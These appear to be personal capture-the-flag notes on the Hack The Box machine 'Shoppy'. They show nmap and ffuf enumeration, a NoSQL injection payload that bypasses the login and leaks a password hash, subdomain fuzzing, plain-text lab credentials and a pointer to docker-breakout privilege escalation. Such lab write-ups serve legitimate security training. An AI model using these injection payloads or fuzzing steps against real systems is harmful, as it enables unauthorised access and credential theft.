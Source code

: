 # Overview

## OWASP Top 10 

- [A04 Insecure Design - OWASP Top 10:2021](https://owasp.org/Top10/A04_2021-Insecure_Design/)
- [A07 Identification and Authentication Failures - OWASP Top 10:2021](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)

# Initial Enumeration
- Start with the standard nmap scan of `nmap -p- -sV -sC $IP -T4 -vv -oN basic_nmap`
login
page at `/login`
![](Pasted%20image%2020221204165958.png)
* fuzz it a bunch - hits on NoSQL.txt
* ![](Pasted%20image%2020221204165841.png)
* `ffuf -u http://shoppy.htb/login -c -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'`
* use `admin' || 'a'=='a` in the username field - any pass is fine
* ![](Pasted%20image%2020221204170128.png)

## Enumerating admin portal
* has user search function
* has download export function
* ![](Pasted%20image%2020221204170257.png)
* ![](Pasted%20image%2020221204170306.png)
* try same payload in search
* ![](Pasted%20image%2020221204170458.png)
	* `6ebcea65320589ca4f2f1ce039975995` - probably md5??
	* `remembermethisway`

# User Josh
* ssh doesnt work
* no other open ports that could be used to login but there was the 'beta' site reference on the landing page
	* ![](Pasted%20image%2020221204170757.png)
	* subdomain enum??
	* `ffuf -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.shoppy.htb" -fs 169`
	* negative response return w/response size 169
	* ![](Pasted%20image%2020221204183037.png)
	* username: jaeger // password: Sh0ppyBest@pp!
	* ![](Pasted%20image%2020221204183132.png)
	* ![](Pasted%20image%2020221204183240.png)
	* creds fail for the password-manager
	* ![](Pasted%20image%2020221204183358.png)
	* ![](Pasted%20image%2020221204183420.png)
	* `Sample` works for the master pass
	* ![](Pasted%20image%2020221204183513.png)
	* ![](Pasted%20image%2020221204183547.png)
	* https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation
	* ![](Pasted%20image%2020221204183624.png)
	* ![](Pasted%20image%2020221204183649.png)



